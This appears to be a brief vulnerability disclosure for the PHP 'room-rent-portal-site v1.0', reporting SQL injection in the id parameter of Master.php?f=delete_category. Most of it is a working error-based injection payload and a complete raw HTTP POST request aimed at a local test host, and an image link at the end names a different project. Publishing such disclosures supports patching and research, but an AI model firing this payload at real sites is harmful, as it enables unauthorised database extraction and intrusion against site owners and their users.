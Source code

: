 # room-rent-portal-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15301/room-rent-portal-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /rrps/classes/Master.php?f=delete_category

Vulnerability location:/rrps/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/rrps/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/rrps/admin/?page=categories
Cookie: PHPSESSID=h4hpbcj74nsiroalrkj8o2251s

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

